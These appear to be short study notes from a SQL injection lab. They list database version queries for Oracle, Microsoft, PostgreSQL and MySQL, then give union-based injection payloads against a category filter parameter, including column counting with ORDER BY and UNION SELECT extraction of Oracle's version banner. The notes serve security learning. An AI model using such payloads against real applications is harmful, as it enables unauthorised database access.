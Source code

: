 Oracle
`SELECT banner FROM v$version  
SELECT version FROM v$instance  
`
Microsoft
`SELECT @@version`
PostgreSQL
`SELECT version()`
MySQL
`SELECT @@version`



with a union based sql injection first step is to determine number of columns- from the lab prompt we can assume two but:
 'ORDER BY 2--
 
/filter?category=Pets' ORDER BY 2--

category=Pets' UNION SELECT 'a',NULL FROM dual--

'UNION SELECT BANNER, NULL FROM v$version--

